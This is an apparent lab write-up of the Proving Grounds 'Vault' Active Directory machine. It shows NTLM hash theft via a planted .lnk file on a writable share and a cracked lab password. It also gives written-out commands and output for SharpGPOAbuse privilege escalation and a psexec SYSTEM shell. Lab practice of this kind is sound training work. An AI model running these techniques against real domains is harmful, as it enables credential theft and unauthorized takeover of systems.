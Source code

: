```yaml
---
title: "Vault"
date: 2025-04-29
categories:
  - Proving Grounds
  - Active Directory
tags:
  - Proving Grounds
  - Active Directory
---
```


# Vault 🔺
<!-- more -->


## Enumeration

![](../assets/Pasted%20image%2020250429091824.png)

Using `--rid` force, we have the users and groups.

![](../assets/Pasted%20image%2020250429173528.png)

There is a writable folder `DocumentsShare`, so we can put a `.lnk` file pointing to our `smb2` server to get hashes using `ntml_theft`.

![](../assets/Pasted%20image%2020250429194145.png)
![](../assets/Pasted%20image%2020250429194205.png)
![](../assets/Pasted%20image%2020250429194215.png)

Using `hashcat`:

![](../assets/Pasted%20image%2020250429201615.png)

`anirudh:SecureHM`

## Initial Access

![](../assets/Pasted%20image%2020250429201725.png)

Get the flag.

![](../assets/Pasted%20image%2020250429201753.png)

## Privilege Escalation

Using `bloodhound-python`, we notice that the user has `writedacl` permissions.

![](../assets/Pasted%20image%2020250429235549.png)

We can use [`SharpGPOAbuse.exe`](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_x64/SharpGPOAbuse.exe) to add ourselves to the admin group.

```powershell
*Evil-WinRM* PS C:\Users\anirudh\Documents> ./SharpGPOAbuse.exe --AddLocalAdmin --UserAccount anirudh --GPOName "Default Domain Policy"
[+] Domain = vault.offsec
[+] Domain Controller = DC.vault.offsec
[+] Distinguished Name = CN=Policies,CN=System,DC=vault,DC=offsec
[+] SID Value of anirudh = S-1-5-21-537427935-490066102-1511301751-1103
[+] GUID of "Default Domain Policy" is: {31B2F340-016D-11D2-945F-00C04FB984F9}
[+] File exists: \\vault.offsec\SysVol\vault.offsec\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
[+] The GPO does not specify any group memberships.
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new local admin. Wait for the GPO refresh cycle.
[+] Done!
*Evil-WinRM* PS C:\Users\anirudh\Documents> 
```

Re-enter with `psexec` and:

```shell
$ python3 /usr/share/doc/python3-impacket/examples/psexec.py vault.offsec/anirudh:SecureHM@192.168.120.116
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 192.168.120.116.....
[*] Found writable share ADMIN$
[*] Uploading file WGPlQkwE.exe
[*] Opening SVCManager on 192.168.120.116.....
[*] Creating service LVYv on 192.168.120.116.....
[*] Starting service LVYv.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2300]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> 
```

## Post Exploitation

Get the flag.
